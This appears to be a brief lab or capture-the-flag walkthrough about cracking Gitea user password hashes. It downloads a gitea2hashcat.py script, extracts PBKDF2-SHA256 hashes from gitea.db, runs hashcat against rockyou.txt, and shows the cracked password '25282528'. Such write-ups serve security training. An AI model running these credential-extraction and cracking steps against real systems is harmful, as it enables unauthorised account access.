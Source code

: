 # just hash

```
python3 gitea2hashcat.py /home/kali/gitea.db > hashes.txt
```

``wget https://gist.githubusercontent.com/h4rithd/0c5da36a0274904cafb84871cf14e271/raw/f109d178edbe756f15060244d735181278c9b57e/gitea2hashcat.py``

---

### ``cat hashes.txt``

```
sha256:50000:LRSeX70bIM8x2z48aij8mw==:y6IMz5J9OtBWe2gWFzLT+8oJjOiGu8kjtAYqOWDUWcCNLfwGOyQGrJIHyYDEfF0BcTY=
sha256:50000:i/PjRSt4VE+L7pQA1pNtNA==:5THTmJRhN7rqcO1qaApUOF7P8TEwnAvY8iXyhEBrfLyO/F2+8wvxaCYZJjRE6llM+1Y=
sha256:50000:Es/JE20QUDJIL33w/jbEiQ==:XljpYwTwRmlPyxK7uNhJXHy5cViBgtrZAFJ3EZct+tUWjDRIVLaK8QVisiOvRhhOf6M=
```

now crack it using ``hashcat``

```
hashcat -m 10900 hashes.txt /usr/share/wordlists/rockyou.txt 
```
now ``show``

```
hashcat -m 10900 hashes.txt --show
```

``found``

```
sha256:50000:i/PjRSt4VE+L7pQA1pNtNA==:5THTmJRhN7rqcO1qaApUOF7P8TEwnAvY8iXyhEBrfLyO/F2+8wvxaCYZJjRE6llM+1Y=:25282528
```

![image](https://github.com/user-attachments/assets/189472a7-0fbf-48ba-b5ef-b5f55e98255c)

password is **``25282528``**






